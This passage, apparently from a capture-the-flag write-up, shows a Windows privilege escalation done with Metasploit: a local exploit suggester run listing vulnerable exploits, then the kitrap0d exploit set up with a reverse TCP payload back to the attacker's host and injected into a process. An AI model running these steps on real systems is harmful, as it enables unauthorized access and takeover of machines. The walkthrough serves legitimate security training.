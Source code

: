 It's time to to do some research! [Research source, under Post Modules](https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_windows.html).
We also see a [Rapid 7 guide on `local_exploit_suggester`](https://blog.rapid7.com/2015/08/11/metasploit-local-exploit-suggester-do-less-get-more/). 
```
meterpreter > run post/multi/recon/local_exploit_suggester

[*] 10.129.135.184 - Collecting local exploits for x86/windows...
[*] 10.129.135.184 - 37 exploit checks are being tried...
[+] 10.129.135.184 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
nil versions are discouraged and will be deprecated in Rubygems 4
[+] 10.129.135.184 - exploit/windows/local/ms10_015_kitrap0d: The service is running, but could not be validated.
[+] 10.129.135.184 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
[+] 10.129.135.184 - exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.
[+] 10.129.135.184 - exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.
[+] 10.129.135.184 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.129.135.184 - exploit/windows/local/ms15_004_tswbproxy: The service is running, but could not be validated.
[+] 10.129.135.184 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.129.135.184 - exploit/windows/local/ms16_016_webdav: The service is running, but could not be validated.
[+] 10.129.135.184 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The service is running, but could not be validated.
[+] 10.129.135.184 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
[+] 10.129.135.184 - exploit/windows/local/ntusermndragover: The target appears to be vulnerable.
[+] 10.129.135.184 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
```
We could've used `meterpreter > run post/multi/recon/local_exploit_suggester SHOWDESCRIPTION=true` as well.

We'll try `exploit/windows/local/ms10_015_kitrap0d` on the meterpreter session, as we've used/seen this before and as a result more familiar with it.

NOTE: Exploit `exploit/windows/local/ms10_015_kitrap0d` worked without navigating to `%temp%` as indicated by the official write-up.
```
meterpreter > background
[*] Backgrounding session 3...
msf6 post(multi/manage/shell_to_meterpreter) > back
msf6 > use exploit/windows/local/ms10_015_kitrap0d
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/local/ms10_015_kitrap0d) > show options
...
msf6 exploit(windows/local/ms10_015_kitrap0d) > set lhost 10.10.x.x
lhost => 10.10.x.x
msf6 exploit(windows/local/ms10_015_kitrap0d) > set lport 2121
lport => 2121
msf6 exploit(windows/local/ms10_015_kitrap0d) > set session 3
session => 3
msf6 exploit(windows/local/ms10_015_kitrap0d) > run

[*] Started reverse TCP handler on 10.10.x.x:2121 
[*] Launching notepad to host the exploit...
[+] Process 1748 launched.
[*] Reflectively injecting the exploit DLL into 1748...
[*] Injecting exploit into 1748 ...
[*] Exploit injected. Injecting payload into 1748...
[*] Payload injected. Executing exploit...
```